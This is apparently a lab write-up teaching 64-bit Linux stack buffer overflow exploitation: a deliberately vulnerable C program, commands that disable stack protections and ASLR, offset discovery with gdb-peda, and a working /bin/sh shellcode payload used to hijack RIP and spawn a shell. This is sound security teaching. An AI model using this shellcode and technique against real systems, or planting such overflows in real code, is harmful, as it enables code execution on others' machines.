 # 64-bit Stack-based Buffer Overflow

The purpose of this lab is to understand how to get control of the RIP register when dealing with classic stack-based buffer overflow vulnerabilities in x64 bit Linux systems.

This lab is based on a great post [https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/](https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/) and the code is borrowed from the same.

{% hint style="info" %}
Note that the vulnerable program is deliberately compiled without memory protections and the ASLR on Linux must be disabled for the lab to work.
{% endhint %}

See related notes:

{% page-ref page="../../../miscellaneous-reversing-forensics/windows-kernel-internals/linux-x64-calling-convention-stack-frame.md" %}

## Vulnerable Code

In this lab, we're going to be using the below vulnerable program:

{% tabs %}
{% tab title="vulnerable.c" %}
```c
// code from https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/

#include <stdio.h>
#include <unistd.h>

int vuln() {
    char buf[80];
    int r;
    r = read(0, buf, 400);
    printf("\nRead %d bytes. buf is %s\n", r, buf);
    puts("No shell for you :(");
    return 0;
}

int main(int argc, char *argv[]) {
    printf("Try to exec /bin/sh");
    vuln();
    return 0;
}
```
{% endtab %}
{% endtabs %}

We can compile the above code with:

```python
gcc -fno-stack-protector -z execstack vulnerable.c -o vulnerable
```

{% hint style="warning" %}
Don't forget to disable the ASLR:

```text
echo 0 > /proc/sys/kernel/randomize_va_space  
```
{% endhint %}

## Getting Control of RIP

Let's try overflow the program by sending some garbage to it. First of, let's generate the said garbage data - 200  AAAAs...:

```python
python -c "print 'A'*200" > in.bin
```

Let's now run the vulnerable program, feed the garbage file to it and observe what happens:

```python
gdb vulnerable
r < in.bin
```

![Vulnerable program crashes when the garbage is fed to it, but the RIP is not overwritten](../../../.gitbook/assets/image%20%28899%29.png)

Note from the above screenshot the following key aspects:

* The stack has been overflowed with As \(lime\);
* RIP register has not been overflowed although it would have been, had this been a 32-bit binary. On the same note, we can indeed see that the return address \(RSP + 0 as `ret` instruction will pop this value and jump to it\) has been filled with As, so why are we not in control of the RIP register?

### Why is RIP not overflowed?

The reason RIP was not overflowed \(technically it was, as we saw in the above screenshot\), is because the `AAAAAAAA` \(`0x4141414141414141`\) is not a canonical memory address, or, in other words, `0x4141414141414141` is a 64-bit wide address that current CPUs do not support. The highest memory that programs can address is 48-bit wide addresses that are capped at `0x00007FFFFFFFFFFF` - this is to prevent complexity in memory address translations that would not provide much benefit to the OSes or applications as it's very unlikely they would ever need to use all of the 64-bit address space. 

### Controlling RIP

Knowing about canonical addresses, we could take control of the RIP if the 64-bit wide address `0x4141414141414141` \(our garbage data\) was translated to a 48-bit canonical address by masking off the 2 highest bytes:

```python
// WinDBG
0:000> ? 0x4141414141414141 & 0x00007FFFFFFFFFFF
Evaluate expression: 71748523475265 = 00004141`41414141
```

Leaving us a canonical address:

$$
0x0000414141414141
$$

Let's see if we can make the program crash and make the RIP point to `0x0000414141414141`. Before we can do this, we need to find out how much garbage As we need to send in before we can place `0x0000414141414141` onto the stack, so that we can take over the RIP.

In gdb \(with peda\), let's create a pattern of 200 characters:

```python
gdb-peda$ pattern_create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
```

...and feed that pattern to the vulnerable program, observe the crash, and find the offset where we should place our preferred RIP value:

![RIP offset is 104](../../../.gitbook/assets/image%20%28876%29.png)

From the above screenshot, we can see that our pattern `A7AAMAAiA...` is visible at the top of the stack -  this value would be popped from the stack and jumped to by the `ret` instruction and we are interested in knowing how deep in the stack it is. To work it out, we can use another gdb-peda command like so:

```python
gdb-peda$ pattern_offset A7AAMAAiA
A7AAMAAiA found at offset: 104
```

We can now see that the offset of interest is 104, so let's test it by generating a new garbage file:

```python
python -c "print 'A'*104 + '\x41\x41\x41\x41\x41\x41\x00\x00'" > in.bin
```

Note that our garbage data will now contain 104 As and a canonical return address `0x0000414141414141` \(in reverse due to little-endianness\). Sending this data to the vulnerable program reveals that we have now taken control of the RIP register:

![We can now control RIP](../../../.gitbook/assets/image%20%28888%29.png)

## Exploitation

We'd like the vulnerable program to spawn a shell for us when exploited, so we will place the [shellcode](http://shell-storm.org/shellcode/files/shellcode-806.php) in the environment variable `PWN` like so:

```python
export PWN=`python -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"'`
```

We now need to find the stack address in the vulnerable program where the PWN environment variable will be located. For this, we can use the following program:

{% tabs %}
{% tab title="getenvvar.c" %}
```cpp
// code by Jon Erickson, page 147 and 148 of Hacking: The Art of Exploitation, 2nd Edition
// compile: gcc getenvvar.c -o getenvvar
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
	char *ptr;

	if(argc < 3) {
		printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
		exit(0);
	}
	ptr = getenv(argv[1]); /* get env var location */
	ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
	printf("%s will be at %p\n", argv[1], ptr);
}
```
{% endtab %}
{% endtabs %}

Run it like so:

```python
./getenvvar PWN ./vulnerable
```

...to learn that `PWN` environment variable will be on the stack at `0x7fffffffefa8`:

![](../../../.gitbook/assets/image%20%28880%29.png)

Let's now convert `0x7fffffffefa8` to its canonical \(2 highest bytes masked off\) form, which equals to `0x0000ffffefa8`. We can now try to exploit the vulnerable program by sending the garbage data that now includes the `PWN` environment variable address as the return address at offset 104 like so:

```python
(python -c "print 'A'*104 + '\xa8\xef\xff\xff\xff\x7f\x00\x00'"; cat) | ./vulnerable
```

![Vulnerable program is exploited and results in a new shell](../../../.gitbook/assets/x64-stack-overflow.gif)

To confirm the exploit worked as expected, we can `unset` the `PWN` environment variable and try to exploit the program again - we will see the program crash, since it no longer has no shellcode to execute:

![](../../../.gitbook/assets/image%20%28879%29.png)

## References

{% embed url="https://www.ret2rop.com/2018/08/stack-based-buffer-overflow-x64.html" %}

{% embed url="https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/" %}

{% embed url="https://medium.com/@\_neerajpal/explained-difference-between-x86-x64-disassembly-49e9678e1ae2" %}

[https://www.cs.tufts.edu/comp/40/docs/x64\_cheatsheet.pdf](https://www.cs.tufts.edu/comp/40/docs/x64_cheatsheet.pdf)

